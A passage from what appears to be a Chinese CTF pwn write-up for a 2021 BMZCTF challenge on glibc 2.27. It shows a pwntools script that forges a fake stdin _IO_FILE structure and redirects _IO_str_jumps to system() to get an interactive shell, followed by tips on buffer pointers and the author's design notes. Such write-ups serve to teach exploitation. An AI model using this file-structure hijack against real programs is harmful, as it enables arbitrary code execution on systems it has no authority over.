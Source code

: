 ```python
payload += p64((new_size - 100) // 2) # _IO_write_ptr
payload += p64(0) # _IO_write_end
payload += p64(0) # _IO_buf_base
payload += p64((new_size - 100) // 2) # _IO_buf_end
payload += p64(0) * 4
payload += p64(libc_base + libc.sym["_IO_2_1_stdin_"])
payload += p64(1) + p64((1<<64) - 1)
payload += p64(0) + p64(libc_base + 0x3ed8c0)
payload += p64((1<<64) - 1) + p64(0)
payload += p64(libc_base + 0x3eb8c0)
payload += p64(0) * 6
payload += p64(libc_base + 0x3e8360) # _IO_str_jumps
payload += p64(libc_base + libc.sym["system"]) # _allocate_buffer
payload += p64(libc_base + libc.sym["_IO_2_1_stdout_"]) # _free_buffer
payload += p64(libc_base + libc.sym["_IO_2_1_stdin_"])
p.sendlineafter("> ", payload)
pause()

p.interactive()
```

tips：
1. stdin的read_ptr >= read_end时说明缓冲区字符不足，需要执行系统调用read向缓冲区读入数据，重置read_ptr = buf_base,read_end += count,返回后再将缓冲区数据memcpy到用户内存。
2. payload += p64(libc_base + libc.sym['_IO_2_1_stdout_'] + 0x84)，只要满足read_ptr >= read_end就行，0x84是分界点，应为覆盖stdin的时候已经读入了0x84数据，所以必须要大于0x84

## 总结

这个题目出的知识点算是经典的iofile题目，利用方式也是经典手法，之前没接触过这类IO_file，复盘之后发现堆IOFile有了更深的影响，学习IOFile我觉得得结合相关的libc去辅助理解学习会更快一点，有利于理解利用方式的手法。

## 参考

1. [iofile之任意文件读写](https://xz.aliyun.com/t/5853?page=1#toc-0)
2. [IO FILE之fread详解](https://ray-cp.github.io/archivers/IO_FILE_fread_analysis)

## 出题思路

1. IOFile、alloc大chunk(0x200000)申请出来的地址紧邻libc
2. 结合任意地址写\x00可以实现修改libc地址的末尾为0，结合IOFile泄露，劫持执行流
3. 环境2.27

# 附件

[附件](https://github.com/1094093288/IMG/tree/master/Pwn/2021BMZCTF)